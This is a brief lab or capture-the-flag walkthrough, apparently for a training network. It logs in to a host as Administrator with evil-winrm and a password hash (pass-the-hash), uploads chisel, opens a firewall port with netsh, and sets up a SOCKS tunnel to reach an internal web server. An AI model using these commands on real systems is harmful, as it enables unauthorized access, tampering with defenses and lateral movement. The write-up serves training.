

# Host:
```
10.200.101.150
```

# Nmap
```

```
UDP?

Connect with evil-winrm:
```
evil-winrm -i 10.200.101.150 -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1
```
Now in evil-winrm upload chisel.exe:
```
upload chisel.exe
```


Enable port 49500 in firewall:
```
netsh advfirewall firewall add rule name="cr3t3ht3" dir=in action=allow protocol=tcp localport=49500
```
Now start a server:
```
.\chisel.exe server -p 49500 --socks5
```

Connect to the server from kali machine:
```
chisel client 10.200.101.150:49500 1080:socks
```

We are connected.

Now we can access webserver on http://10.200.101.100/


